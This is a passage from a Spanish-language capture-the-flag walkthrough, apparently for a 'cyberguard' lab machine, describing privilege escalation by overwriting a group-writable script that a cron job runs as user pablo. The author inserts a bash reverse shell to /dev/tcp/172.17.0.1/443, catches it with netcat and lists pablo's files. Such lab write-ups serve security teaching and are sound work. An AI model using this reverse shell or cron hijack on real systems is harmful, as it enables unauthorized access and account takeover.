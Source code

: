 ##### Cambiamos el usuario
* * * * * pablo /home/veronica/.local/script-h.sh > /tmp/hora/hora.log 2>&1

##### Compromas si en el directorio /tmp/hora/hora.log aparece la ejecución
![cg-12](/img/cyberguard/cg-12.png)
<br>

![cg-13](/img/cyberguard/cg-13.png)
<br>
viendo los permisos del script solo puede escribir pablo y miembros del grupo taller, así que viendo los grupos de veronica podemos intentar modificarlo para que saque una shell.
<br>
modificamos el script con una reverse shell 
veronica@e8cb173e3a20:~/.local$ nano script-h.sh 
veronica@e8cb173e3a20:~/.local$ cat script-h.sh 
#!/bin/bash

<br>

bash -i >& /dev/tcp/172.17.0.1/443 0>&1
veronica@e8cb173e3a20:~/.local$ 

y luego en nuestra maquina abrimos un netcat apuntando en mi caso al puerto 443, y nos abrira una shell con el usuario pablo, esperando unos minutos.
<br>
![cg-14](/img/cyberguard/cg-14.png)

Dentro de pablo ahora vemos lo que hay en su directorio personal

``` bash
pablo@e8cb173e3a20:~$ ls -la *
ls -la *
Desktop:
total 8
drwxrwxr-x 2 pablo pablo 4096 Apr 18 10:45 .
drwxr-x--- 1 pablo pablo 4096 May  2 18:11 ..

Documents:
total 12
drwxrwxr-x 1 pablo pablo 4096 May  2 18:11 .
drwxr-x--- 1 pablo pablo 4096 May  2 18:11 ..
-rw-r--r-- 1 root  root    25 Apr 26 13:32 importante.txt

Images:
total 84
drwxrwxr-x 1 pablo pablo  4096 Apr 26 14:14 .
drwxr-x--- 1 pablo pablo  4096 May  2 18:11 ..
-rw-rw-r-- 1 pablo pablo 21494 Jan  1 14:40 htdhgjhj.jpg
-rw-rw-r-- 1 pablo pablo 49218 Apr 26 13:52 jhchgj.jpg
pablo@e8cb173e3a20:~$ 

```
